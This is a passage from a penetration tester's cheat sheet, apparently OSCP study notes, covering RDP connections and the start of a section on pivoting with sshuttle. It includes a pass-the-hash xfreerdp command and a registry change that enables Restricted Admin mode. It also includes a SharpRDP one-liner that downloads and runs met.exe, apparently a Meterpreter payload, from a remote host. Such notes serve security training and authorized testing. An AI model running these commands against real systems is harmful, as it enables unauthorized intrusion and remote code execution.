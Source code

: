 ##### Forcing enable of clipboard

I might want to force the use of the clipboard if it's not being taken by default and use the 100% of the screen:

```console
rdesktop 192.168.42.42 -d arkham -u ceso -p pirata -g 100% -x 0x80 -5 -K -r clipboard:CLIPBOARD
```

##### Connection with restricted admin mode

```console
xfreerdp en Linux soporta restricted admin mode, se ejecuta asi por ej: `xfreerdp /u:admin /pth:<NTLM-hash-of-user-admin-pass> /v:192.168.42.42 /cert-ignore
```


#### Windows

##### Restricted admin mode

```console
Enable it :
  Through registry: 
    HKLM:\System\CurrentControlSet\Control\Lsa
    Use "DisableRestrictedAdmin" property
  With Powershell:
    New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0  

Connect it:
  --> mstsc.exe /restrictedadmin
```

##### Stacked commands without GUI

```console
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFil
e('http://192.168.42.42/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=example\ceso password=soyUnaPassword
```

## Pivoting

It's possible to do pivoting by using proxychains, pure nc's or in case of linux just some fifo files (I will write them down this another methods down maybe in a future), I have used during all the OSCP an awesome tool called (sshuttle)[https://github.com/sshuttle/sshuttle] (it's a transparent proxy server that works like "a vpn", and doesn't require with super rights, only thing needed is that the bastion server you will use, needs to have installed python) and sometimes some SSH Forwarding. Something worth to mention nmap doesn't work through sshuttle.

### sshuttle

#### One hop
